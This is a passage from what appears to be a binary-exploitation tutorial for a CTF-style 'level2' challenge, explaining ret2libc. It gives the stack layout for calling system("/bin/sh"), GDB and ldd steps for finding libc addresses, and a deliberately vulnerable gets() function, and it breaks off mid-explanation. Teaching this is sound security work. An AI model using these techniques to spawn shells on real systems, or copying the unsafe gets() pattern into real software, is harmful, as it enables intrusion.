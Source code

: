 system("/bin/sh");

// On stack:
// [system_addr][fake_ret][binsh_addr]
//     ↓
// Call system() with argument at binsh_addr
Learn More:

📖 ret2libc Explanation ⭐ EXCELLENT
📖 Return-to-libc Attack
🎥 YouTube: ret2libc Tutorial
🛠️ Practice: ROP Emporium - ret2win

3. Finding libc Functions
Method 1: GDB
bashgdb ./level2
(gdb) break main
(gdb) run
(gdb) print system
$1 = {<text variable>} 0xb7e6b060 <system>

(gdb) print __libc_system
$2 = {<text variable>} 0xb7e6b060 <__libc_system>
Method 2: Find "/bin/sh" string
bash(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.

(gdb) x/s 0xb7f8cc58
0xb7f8cc58:      "/bin/sh"
Method 3: Using ldd
bashldd ./level2
    linux-gate.so.1 =>  (0xb7fda000)
    libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e2c000)
Learn More:

📖 Finding libc Addresses
📖 Dynamic Linking Explained

4. Bypassing Address Checks
The Protection:
cvoid p(void) {
    unsigned int ret_addr;
    char buffer[76];
    
    gets(buffer);
    ret_addr = __builtin_return_address(0);
    
    // Check if return address is on stack (0xbXXXXXXX)
    if ((ret_addr & 0xb0000000) == 0xb0000000) {
        printf("(%p)\n", ret_addr);
        exit(1);  // Prevent stack execution
    }
}
Why ret2libc bypasses it:
